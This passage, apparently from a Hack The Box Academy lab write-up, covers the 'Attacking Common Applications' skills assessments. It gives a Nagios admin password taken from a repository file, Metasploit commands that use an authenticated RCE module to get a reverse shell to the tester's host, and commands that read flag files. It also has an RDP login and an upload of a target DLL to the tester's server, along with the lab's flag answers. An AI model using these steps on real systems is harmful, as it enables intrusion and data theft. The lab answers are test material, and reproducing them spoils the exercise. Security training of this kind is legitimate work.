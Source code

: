 In the output we can read: 

```
/nagios
```

Results: nagios


**What is the admin password to access this application?**

Browsing the code at http://blog.inlanefreight.local:8180/root/nagios-postgresql/-/blob/master/INSTALL we can read this password.

Resutls: `oilaKglm7M09@CPL&^lC`


 Obtain reverse shell access on the target and submit the contents of the flag.txt file.

```
# We know that nagios has several vulnerabilities. 

msfconsole -q

search nagios

use linux/http/nagios_xi_configwizards_authenticated_rce

set LHOST 10.10.15.8
set RHOSTS 10.129.127.10
set PASSWORD oilaKglm7M09@CPL&^lC
run

# And we obtain a shell

# We will find the flag
tree /usr/local/nagiosxi/

# Also with 
find / -name "*flag*.txt" 2>/dev/null 

cat /usr/local/nagiosxi/html/admin/f5088a862528cbb16b4e253f1809882c_flag.txt
```

Results: afe377683dce373ec2bf7eaf1e0107eb


### Attacking Common Applications - Skills Assessment III

During our penetration test our team found a Windows host running on the network and the corresponding credentials for the Administrator. It is required that we connect to the host and find the `hardcoded password` for the MSSQL service.

RDP to  with user "Administrator" and password "xcyj8izxNVzhf4z".  What is the hardcoded password for the database connection in the MultimasterAPI.dll file?

```
xfreerdp /v:10.129.95.200 /u:Administrator /p:xcyj8izxNVzhf4z /cert:ignore


root.txt file with 89edf1a0bcdd83db7cc8d8a2f176a33e
user.txt 4e2923224c44e74eb8ddcb1ae859f3dd



Invoke-FileUpload -Uri http://10.10.15.8:8000/upload -File C:\inetpub\wwwroot\bin\MultimasterAPI.dll


```
